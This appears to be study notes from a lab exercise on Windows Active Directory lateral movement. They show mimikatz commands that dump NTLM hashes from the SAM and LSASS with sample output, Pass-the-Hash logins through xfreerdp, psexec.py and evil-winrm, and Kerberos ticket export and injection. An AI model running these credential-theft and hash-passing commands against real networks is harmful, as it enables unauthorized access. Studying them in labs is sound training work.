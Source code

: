 # NTLM Authentication

If we aren't lucky enough, we will end up with non-cracked NTLM password hashes. Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can Pass-the-Hash (PtH) and authenticate successfully. To extract NTLM hashes, we can either use **mimikatz** to read the local SAM or extract hashes directly from LSASS memory.

## Extracting NTLM hashes from local SAM:

<code>`mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # lsadump::sam   
RID  : 000001f4 (500)
User : Administrator
Hash NTLM: 145e02c50333951f71d13c245d352b50</code>

## Extracting NTLM hashes from LSASS memory:

<code>mimikatz # privilege::debug
mimikatz # token::elevate

mimikatz # sekurlsa::msv 
Authentication Id : 0 ; 308124 (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : bob.jenkins
Domain            : ZA
Logon Server      : THMDC
Logon Time        : 2022/04/22 09:55:02
SID               : S-1-5-21-3330634377-1326264276-632209373-4605
        msv :
         [00000003] Primary
         * Username : bob.jenkins
         * Domain   : ZA
         * NTLM     : 6b4a57f67805a663c818106dc0648484</code>

## Passing the Hash Using Linux:

If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

1. Connect to RDP using PtH:
`xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`

2. Connect via psexec using PtH:
`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`
Note: Only the linux version of psexec support PtH.

3. Connect to WinRM using PtH:
`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`

# Kerberos Authentication

## Pass the ticket

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using mimikatz. **The process usually requires us to have SYSTEM privileges** on the attacked machine and can be done as follows:

<code>mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export</code>

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

`mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi`
